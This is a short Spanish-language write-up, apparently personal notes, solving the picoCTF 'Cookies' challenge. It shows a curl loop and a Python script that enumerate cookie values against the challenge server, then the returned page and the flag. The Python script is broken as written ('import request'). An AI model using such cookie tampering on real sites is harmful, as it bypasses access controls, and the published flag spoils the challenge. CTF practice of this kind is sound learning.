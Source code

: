 # Cookies

## Descripcion Reto
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Pistas
1. (None)

## Solución
![[Pasted image 20230316125421.png]]
![[Pasted image 20230316125531.png]]

```bash
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ 
```

```python
import request

url = "http://mercury.picoctf.net:27177/check"

for i in range(21):
        cookies = {"name": f"{i}"}
        r = request.get(url, cookies = cookies)
        if "picoCTF{" in r.text:
                print(r.text)
```

```bash
┌──(kali㉿kali)-[~/hacking]
└─$ python3 exploit.py
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

## Bandera
* picoCTF{3v3ry1_l0v3s_c00k135_064663be}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()
